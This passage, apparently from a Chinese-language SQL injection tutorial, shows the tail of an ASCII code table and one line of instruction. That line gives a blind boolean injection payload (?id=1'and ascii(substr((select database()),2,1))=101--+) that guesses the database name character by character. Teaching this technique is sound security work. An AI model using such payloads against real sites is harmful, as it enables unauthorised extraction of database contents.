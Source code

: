 | 01101101 |  109   |    6D    |                      m                       |                                    |
| 01101110 |  110   |    6E    |                      n                       |                                    |
| 01101111 |  111   |    6F    |                      o                       |                                    |
| 01110000 |  112   |    70    |                      p                       |                                    |
| 01110001 |  113   |    71    |                      q                       |                                    |
| 01110010 |  114   |    72    |                      r                       |                                    |
| 01110011 |  115   |    73    |                      s                       |                                    |
| 01110100 |  116   |    74    |                      t                       |                                    |
| 01110101 |  117   |    75    |                      u                       |                                    |
| 01110110 |  118   |    76    |                      v                       |                                    |
| 01110111 |  119   |    77    |                      w                       |                                    |
| 01111000 |  120   |    78    |                      x                       |                                    |
| 01111001 |  121   |    79    |                      y                       |                                    |
| 01111010 |  122   |    7A    |                      z                       |                                    |
| 01111011 |  123   |    7B    |                      {                       |                                    |
| 01111100 |  124   |    7C    |                      \|                      |                                    |
| 01111101 |  125   |    7D    |                      }                       |                                    |
| 01111110 |  126   |    7E    |                      ~                       |                                    |
| 01111111 |  127   |    7F    |                 DEL (Delete)                 |                删除                |



再注入以下语句判断数据库名的第二个字符

~~~ shell
?id=1'and ascii(substr((select database()),2,1))=101--+
~~~
